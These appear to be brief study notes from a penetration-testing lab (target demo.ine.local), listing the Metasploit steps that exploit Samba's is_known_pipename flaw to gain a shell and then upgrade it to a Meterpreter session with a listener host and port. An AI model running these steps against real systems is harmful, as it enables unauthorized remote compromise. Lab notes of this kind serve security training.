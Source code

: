 ####upgrading command shell to meterpreter shell
- service postgresql start
- msfconsole
- workspace -a mywork
- db_nmap -sS -sV demo.ine.local
- search type:exploit name:samba
- use exploit/linux/samba/is_known_pipename
- this will give us a shell 
- ctrl+z [ background the shell]
- search shell_to_meterpreter
- use post/multi/manage/shell_to_meterpreter
- show options
- set session,lhost,lport 
- run
- this will give us meterpreter shell
